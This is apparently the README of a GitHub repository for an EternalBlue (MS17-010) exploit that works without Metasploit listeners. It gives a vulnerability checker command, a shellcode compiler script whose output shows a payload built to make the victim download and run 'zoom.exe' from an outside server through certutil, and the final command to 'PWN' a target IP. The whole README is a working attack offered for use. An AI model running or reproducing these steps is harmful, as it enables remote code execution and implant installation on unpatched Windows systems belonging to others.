 # MS17-010 Exploit Code

This is a  public exploit code that generates valid shellcode for the eternal blue exploit that instructs the victim using Certutil tool to download an implant from an internet AWS server and execute it.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit, or reverse shells (no need to use ncat listenning)

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternal_checker.py <TARGET-IP>`


# Requirements
Core exploit code requires impacket and the `mysmb.py` library (included with the repo). To install any requirements simply use pip on the `requirements.txt` file. It's always recommended you use a virtual environment like `venv` when installing python dependencies, but use whatever you like.

Additionally, the helper scripts below require the Metasploit Framework to be installed. At minimum you will need `msfvenom` for the `shell_prep.sh` but stageless command shells can be caught like any normal command shell without the use of Metasploit's multi/handler. Otherwise, simply install the metasploit framework and insure it is in your path.

#### IMPORTANT SUPPORT INFO:
Keep in mind `python2` is *not* officially supported anymore. The original exploit code that is provided was initially built for python2, going forward any errors discovered will be adjusted for insuring the code works with python3 instead of python2. Instructions below assume python/pip are `python3` by default, so if you are using `python2` update based on your own paths when necessary and remember, it is *NOT* officially supported by this repo.
## Python2
`pip2.7 install -r requirements.txt`

## Python3
`pip install -r requirements.txt`

## TODO:
- [x] Validate python3 compatibility
- [ ] Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run ./shell_prep.sh

OUTPUT:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
'Compiling x86 kernel shellcode'
kernel shellcode compiled
Generating payload to download and execute zoom.exe using certutil...
Running the 'init' command for the database:
Existing database found, attempting to start it
Starting database at /home/nicolas/.msf4/db...pg_ctl: another server might be running; trying to start server anyway
server starting
success
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 364 bytes
Saved as: sc_x64_msf.bin
Payload for x64 generated.
MERGING KERNEL SHELLCODE WITH MSFVENOM-GENERATED PAYLOAD!
Shellcode merged successfully.
DONE
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

navigate back to Eternal-Blue-with-RCE directory

run: `python3 eternalblue_exploit10.py <TARGET-IP> shellcode/sc_x64.bin <Number of Groom Connections (optional)>`



